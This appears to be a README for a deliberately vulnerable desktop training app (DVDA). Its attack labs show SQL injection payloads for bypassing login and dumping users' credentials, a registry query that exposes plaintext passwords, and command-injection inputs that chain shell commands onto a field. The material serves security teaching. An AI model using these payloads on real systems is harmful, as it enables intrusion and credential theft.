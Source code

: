 Source: [OWASP Desktop Security Top 10][^4]

***
<img width="1919" height="998" alt="image" src="https://github.com/user-attachments/assets/e6a5018a-3e35-4252-85f1-3d2fbb20c745" />

## Attack Labs

### 🔍 DA1: SQL Injection

```sql
-- Authentication Bypass
Username: admin' OR '1'='1' --
Password: [anything]

-- Database Enumeration
Search: ' UNION SELECT Username || ':' || Password FROM Users --
```

<img width="475" height="637" alt="image" src="https://github.com/user-attachments/assets/468390df-7b35-4c0f-9aee-ca9814f9f896" />


***

### 🗝️ DA2: Registry Session Storage

```powershell
reg query "HKCU\SOFTWARE\DVDA"
# Shows plain text Password: admin123, Username: admin
```

<img width="958" height="258" alt="image" src="https://github.com/user-attachments/assets/cb218449-a781-42f8-b76a-dec874bdbfdd" />


***

### 📊 DA3: Database Analysis

```bash
dir /s *.db
# Use DB Browser for SQLite. Table: Users (contains plain text passwords)
```

*Screenshot:*

***

### ⚡ DA4: Command Injection

```bash
test & calc          # Opens calculator
test && whoami       # Shows current user
test || dir          # Lists directory
```

*Screenshot:*


[^1]: https://github.com/orgs/community/discussions/22833
[^2]: https://cloudinary.com/guides/web-performance/4-ways-to-add-images-to-github-readme-1-bonus-method
[^3]: https://www.digitalocean.com/community/tutorials/markdown-markdown-images
[^4]: https://owasp.org/www-project-desktop-app-security-top-10/
[^5]: https://owasp.org/www-project-thick-client-top-10/
[^6]: https://github.com/srini0x00/dvta
[^7]: https://www.cyberark.com/resources/threat-research-blog/thick-client-penetration-testing-methodology
[^8]: Dvda.md
[^9]: https://owasp.org/www-project-top-ten/
[^10]: https://owasp.org/Top10/
[^11]: https://owasp.org/www-project-top-10-client-side-security-risks/
[^12]: https://www.breachlock.com/resources/blog/the-owasp-top-10-framework/
[^13]: https://checkmarx.com/glossary/owasp-top-10/
[^14]: https://github.com/secvulture/dvta
[^15]: https://stackoverflow.com/questions/14494747/how-to-add-images-to-readme-md-on-github
[^16]: https://www.optiv.com/insights/discover/blog/thick-client-application-security-testing
[^17]: https://github.com/DarkRelay-Security-Labs/Linux-Damn-Vulnerable-Thick-Client
[^18]: https://wesecureapp.com/blog/owasp-penetration-testing-your-ultimate-guide/
[^19]: https://www.scribd.com/document/727958860/Thick-Client-Pentesting-The-HackersMeetup-Version1-0pptx
[^20]: https://www.reddit.com/r/github/comments/15crgsq/how_do_i_add_images_into_my_readme_and_keep_them/
[^21]: https://www.indusface.com/blog/owasp-top-10-vulnerabilities-in-2021-how-to-mitigate-them/